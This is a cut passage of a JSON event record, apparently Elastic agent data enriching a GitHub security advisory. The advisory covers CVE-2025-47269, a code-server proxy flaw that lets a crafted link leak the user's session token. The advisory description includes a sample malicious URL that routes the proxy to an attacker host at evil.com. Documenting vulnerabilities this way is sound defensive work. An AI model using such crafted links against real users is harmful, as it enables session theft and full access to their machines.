 ```json
    },
    "elastic_agent": {
        "id": "5374b8ec-e50d-43be-9cfd-c7716d8b938c",
        "snapshot": false,
        "version": "8.18.0"
    },
    "event": {
        "agent_id_status": "verified",
        "category": [
            "vulnerability"
        ],
        "dataset": "github_security_advisory.vulnerability",
        "ingested": "2025-05-11T13:58:02Z",
        "kind": "enrichment",
        "type": [
            "info"
        ]
    },
    "github_security_advisory": {
        "cve_id": "CVE-2025-47269",
        "cvss": {
            "score": 8.3,
            "vector_string": "CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:L"
        },
        "cvss_severities": {
            "cvss_v3": {
                "score": 8.3,
                "vector_string": "CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:L"
            },
            "cvss_v4": {
                "score": 0
            }
        },
        "cwes": [
            {
                "cwe_id": "CWE-441",
                "name": "Unintended Proxy or Intermediary ('Confused Deputy')"
            }
        ],
        "description": "### Summary\n\nA maliciously crafted URL using the `proxy` subpath can result in the attacker gaining access to the session token.\n\n### Details\n\nFailure to properly validate the port for a `proxy` request can result in proxying to an arbitrary domain. The malicious URL `https://<code-server>/proxy/test@evil.com/path` would be proxied to `test@evil.com/path` where the attacker could exfiltrate a user's session token.\n\n### Impact\n\nAny user who runs code-server with the built-in proxy enabled and clicks on maliciously crafted links that go to their code-server instances with reference to `/proxy`.\n\nNormally this is used to proxy local ports, however the URL can reference the attacker's domain instead, and the connection is then proxied to that domain, which will include sending cookies.\n\nWith access to the session cookie, the attacker can then log into code-server and have full access to the machine hosting code-server as the user running code-server.\n\n### Patches\n\nPatched versions are from [v4.99.4](https://github.com/coder/code-server/releases/tag/v4.99.4) onward.",
        "ghsa_id": "GHSA-p483-wpfp-42cj",
        "github_reviewed_at": "2025-05-09T19:34:35.000Z",
        "html_url": "https://github.com/advisories/GHSA-p483-wpfp-42cj",
        "identifiers": [
            {
                "type": "GHSA",
                "value": "GHSA-p483-wpfp-42cj"
            },
            {
                "type": "CVE",
                "value": "CVE-2025-47269"
            }
```